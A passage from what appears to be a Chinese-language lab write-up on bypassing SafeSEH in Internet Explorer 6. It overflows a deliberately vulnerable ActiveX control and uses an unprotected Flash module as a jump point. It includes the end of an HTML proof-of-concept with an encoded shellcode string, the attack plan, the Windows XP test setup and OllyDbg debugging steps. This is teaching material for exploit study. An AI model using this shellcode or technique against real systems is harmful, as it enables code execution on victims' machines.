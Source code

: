 s += "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33\u6853\u6577\u7473\u6668\u6961\u8b6c\u53c4\u5050\uff53\ufc57\uff53\uf857";
test.test(s);
&lt;/script&gt;

&lt;/body&gt;
&lt;/html&gt;
</code></pre>

这个代码和书上的不一致，但是完全正确。需要注意的是，我们使用的embed中的map.swf需要和该html在同一文件夹下，而object中的classid其实可以从VulnerAX_SEH.idl中找到。注意只能是下面代码中那处显示的uuid，其它位置处的都不行！！！

<pre><code>
	//  Class information for CVulnerAX_SEHCtrl

	[ uuid(F010E769-5E95-4DBB-943D-AF2D1FE10C34),
	  helpstring("VulnerAX_SEH Control"), control ]
	coclass VulnerAX_SEH
	{
		[default] dispinterface _DVulnerAX_SEH;
		[default, source] dispinterface _DVulnerAX_SEHEvents;
	};
</code></pre>

#### 6.5 实验内容

<b>实验思路：</b>
1. 在POC页面中随便插入一个Flash，让浏览器能够加载Flash控件
2. 在POC页面中调用VulnerAX_SEH.ocx控件中的test函数，并向其传递超长字符串，以触发test函数中的溢出漏洞。
3. 通过溢出手段将VulnerAX_SEH.ocx中的异常处理函数地址覆盖为Flash控件中的跳转地址。由于Flash控件没有启用SafeSEH，所以这个跳板地址可以绕过SafeSEH
4. Test函数触发除0异常后，程序会去调用异常处理函数，由于异常处理函数地址已经被覆盖，所以劫持了程序流程。

<b>实验环境：</b>

||推荐使用环境|备注|
|--|--|--|
|操作系统|Windows XP SP3||
|浏览器|Internet Explorer 6||
|Flash控件版本|9.0.115.0|未启用SafeSEH的最后一版9.2.124|

<b>实验步骤：</b>
1. 修改POC，将s设置为90字节的0x90，用IE访问POC页面。
2. 如果浏览器提示ActiveX控件被拦截等信息请自行设置浏览器权限，当浏览器弹出下图所示对话框，就可以用Ollydbg附加IE的进程<font color=#f00>（打开Ollydbg，点击File->attach，找到IExplorer进程，attach上去即可）</font>，附加好后按F9让程序继续运行
![ActiveX提示](/images/2017-07-08/activex.jpg)
3. 找到VulnerAX_SEH.ocx的内存空间，查找字符串"aaaa"，在此位置设置好断点0x100017DC<font color=#f00>（这是最近两天才发现的，设置断点一定要在CPU主界面设置，否则就设置不成功！）</font>。我的方法如下图:先在Memory窗口中找到VulnerAX_SEH所在位置，然后搜索字符串"aaaa"，在rdata中找到了字符串，记下地址0x1003F9F8，再在.text中找字符串"\xF8\xF9\x03\x10"，就可以找到printf("aaaa")的位置